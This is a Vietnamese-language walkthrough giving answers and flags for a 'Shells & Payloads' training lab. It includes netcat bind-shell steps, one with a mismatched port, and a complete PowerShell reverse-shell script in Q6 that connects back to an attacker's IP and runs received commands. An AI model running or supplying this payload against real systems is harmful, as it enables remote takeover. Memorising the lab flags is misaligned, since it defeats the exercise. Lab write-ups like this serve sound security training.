






# Lời giải — Shells & Payloads

### Q1: Which two shell languages did we experiment with in this section? (Format: shellname&shellname)

> **Đáp án:** `bash&powershell`

---

### Q2: In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.

Chạy lệnh: `$PSversiontable`

> **Đáp án:** `Core`

---

### Q3: Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

Nhìn trên câu hỏi ta đã thấy cổng kết nối là 443

> **Đáp án:** `443`

---

### Q4: SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

Đầu tiên dựa theo `IP` `username` `password` đã được cung cấp, ta tiến hành SSH  
`ssh <username>@<IP>`

Mở 1 terminal khác, terminal này sẽ để netcat vào máy mục tiêu thông qua cổng 4444  
`nc -nv <IP> 444`

Sau khi bắt được tín hiệu từ cổng 4444, ta đã truy cập thành công vào máy chủ

Lấy đáp án

> **Đáp án:** `B1nD_Shells_r_cool`

---

### Q5: When establishing a reverse shell session with a target, will the target act as a client or server?

`Máy tấn công (máy mình)` là máy lắng nghe là `máy nhận thông tin` tương đương `server`, còn máy target là máy truyền thông tin nên là máy `client`

> **Đáp án:** `client`

---

### Q6: Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

Chạy lệnh `xfreerdp xfreerdp /v:<TARGET_IP> /u:<USERNAME> /p:<PASSWORD> /dynamic-resolution` để kết nối RDP vào máy windows(target) 

Chạy lệnh sau vào `PowerShell` của máy target (mở PowerShell bằng quyền admin)

<table>
  <thead>
    <tr>
      <th>Lệnh PowerShell</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
<pre><code class="language-powershell">$client = New-Object System.Net.Sockets.TCPClient('&lt;IP&gt;',&lt;cổng kết nối&gt;)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | % {0}
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
  if (![string]::IsNullOrWhiteSpace($data)) {
    try {
      $sendback = (iex $data 2>&1 | Out-String)
    } catch {
      $sendback = $_.Exception.Message
    }
  } else {
    $sendback = "Empty command received.`n"
  }
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte, 0, $sendbyte.Length)
  $stream.Flush()
}
$client.Close()</code></pre>
      </td>
    </tr>
  </tbody>
</table>

Như ta đã thấy, cổng netcat đã bắt được tín hiệu từ máy target thông qua port: 443  
Chạy lệnh `hostname` rồi lấy đáp án

> **Đáp án:** `Shells-win10`

---

### Q7: What command language interpreter is used to establish a system shell session with the target?

Trên hệ điều hành `Windows` thì `PowerShell` chính là trình thông dịch chuẩn vừa chạy được lệnh hệ thống, vừa chạy được script phức tạp.

> **Đáp án:** `powershell`

